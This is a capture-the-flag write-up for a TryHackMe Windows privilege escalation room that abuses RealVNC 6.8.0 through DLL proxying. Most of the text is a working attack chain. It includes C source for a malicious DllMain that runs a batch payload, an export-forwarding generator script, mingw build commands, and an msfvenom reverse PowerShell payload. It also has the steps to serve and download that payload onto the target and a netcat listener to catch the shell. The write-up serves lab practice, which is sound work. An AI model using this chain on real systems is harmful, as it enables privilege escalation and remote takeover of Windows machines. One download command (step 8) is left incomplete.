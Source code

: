 writeup by VonKlotz for "Tryhackme.com room Windows Privilege Escalation, Task 7 Abusing vulnerable software Created by  tryhackme and  munra"

Case study: RealVNC 6.8.0

C:\Users\<username>\AppData\Local\Temp\     its our exploit destination
C:\Windows\System32\adsldpc.dll 			its dll we will proxy it need to copy it to our machine
1.bat  										msfvenom -p cmd/windows/reverse_powershell lhost=10.0.0.0 lport=9595 > 1.bat

~~~ FILES ~~~
proxy.c : A standard C implementation of a DLL. The only method implemented will be the DLLMain() function, containing our payload.

@@@@@@@@@@@@@@@@@@@ proxy.c @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
#include <windows.h>

BOOL WINAPI DllMain(HMODULE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
    if (fdwReason == DLL_PROCESS_ATTACH) {
            system("C:\\tools\\1.bat");
    }

    return TRUE;
}
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

proxy.def : A definition file to pass to the linker, where we will specify all of the export forwards back to the original DLL. The structure of the file will hold a line for each export where we will indicate the name of the export, followed by the DLL and method name where the calls will be forwarded, followed by an ordinal that specifies in which position of the export table will the method be:

@@@@@@@@@@@@@@@@@@@@ proxy.def @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
EXPORTS
Method1=C:/Windows/System32/original.dll.Method1 @1
Method2=C:/Windows/System32/original.dll.Method2 @2
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

get_exports.py : We will then use a slightly modified version of the get_exports.py script from the Cobalt-Strike Github repo.

@@@@@@@@@@@@@@@@@@@@ get_exports.py @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
import pefile
import argparse

parser = argparse.ArgumentParser(description='Target DLL.')
parser.add_argument('--target', required=True, type=str,help='Target DLL')
parser.add_argument('--originalPath', required=True, type=str,help='Original DLL path')

args = parser.parse_args()

target = args.target
original_path = args.originalPath.replace('\\','/')

dll = pefile.PE(target)

print("EXPORTS", end="\r\n")

for export in dll.DIRECTORY_ENTRY_EXPORT.symbols:
    if export.name:
        print(f"    {export.name.decode()}={original_path}.{export.name.decode()} @{export.ordinal}", end="\r\n")
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@


~~~ STEPS ~~~

1. make files above

2. make proxy using command below 

python3 get_exports.py --target adsldpc.dll --originalPath 'C:\Windows\System32\adsldpc.dll' > proxy.def

3. command bellow will compile proxy.c with the -c option, which won't run the linker and produce a proxy.o object file.

x86_64-w64-mingw32-gcc -m64 -c -Os proxy.c -Wall -shared -masm=intel

4. command bellow will take the proxy.o file and run it through the linker, which will also receive the proxy.def file with all of the exports we need for our proxy DLL. As a result, we will end up with the proxy.dll file we need to exploit RealVNC. Feel free to run get_exports.py into the new file to confirm it contains all the exports in the original DLL

x86_64-w64-mingw32-gcc -shared -m64 -def proxy.def proxy.o -o proxy.dll

5. create our payload 1.bat using msfvenom command bellow

msfvenom -p cmd/windows/reverse_powershell lhost=10.0.0.0 lport=9595 > 1.bat

6. start server on our machine command bellow in directory with files

python3 -m http.server 80

7. run powershell and download our dll to C:\Users\thm-unpriv\AppData\Local\Temp\adsldpc.dll  we can use command bellow

wget http://10.0.0.0:80/proxy.dll -O C:\Users\thm-unpriv\AppData\Local\Temp\adsldpc.dll

8. in powershell download 1.bat (our rev shell payload) use command bellow

wget http://10.0.0.0:80/1.bat -O 

9. start listener on attaking machine can use command bellow

nc -lvnp 9595

10.run add and remove programs, click modify then choose repair and run it

~~~ ENJOY ~~~ 
